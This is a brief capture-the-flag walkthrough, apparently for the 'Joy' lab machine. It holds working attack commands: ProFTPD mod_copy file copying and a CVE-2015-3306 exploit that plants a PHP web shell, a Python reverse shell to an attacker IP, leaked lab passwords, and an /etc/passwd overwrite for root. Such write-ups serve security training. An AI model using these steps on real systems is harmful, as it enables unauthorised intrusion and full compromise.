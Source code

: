 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# jou
# 27/12/2022

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.2.10
22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
80/tcp  open  http        Apache httpd 2.4.25
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
465/tcp open  smtp        Postfix smtpd
587/tcp open  smtp        Postfix smtpd
993/tcp open  ssl/imap    Dovecot imapd
995/tcp open  ssl/pop3    Dovecot pop3d

----------------------------------------------------
ftp
----------------------------------------------------
login as anonymous
cd upload
get directory
telnet 10.0.2.22 21
site cpfr /home/patrick/version_control
site cpto /home/ftp/upload/version_control

again login with ftp and cat that copied version no from upload dir


git clone https://github.com/t0kx/exploit-CVE-2015-3306.git

./exploit.py --host 10.0.2.22 --port 21 --path "/var/www/tryingharderisjoy"

http://10.0.2.22/backdoor.php?cmd=ls

rlwrap nc -lvnp 1234

http://10.0.2.22/backdoor.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.9",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

cd ossec
cat patricksecretsofjoy
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?


su patrick

sudo -l

Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test



sudo /home/patrick/script/test

../../../../etc/passwd
777


shub:$1$abc$czj10a8hEuHoKfs5PmF8//:0:0:root:/root:/bin/bash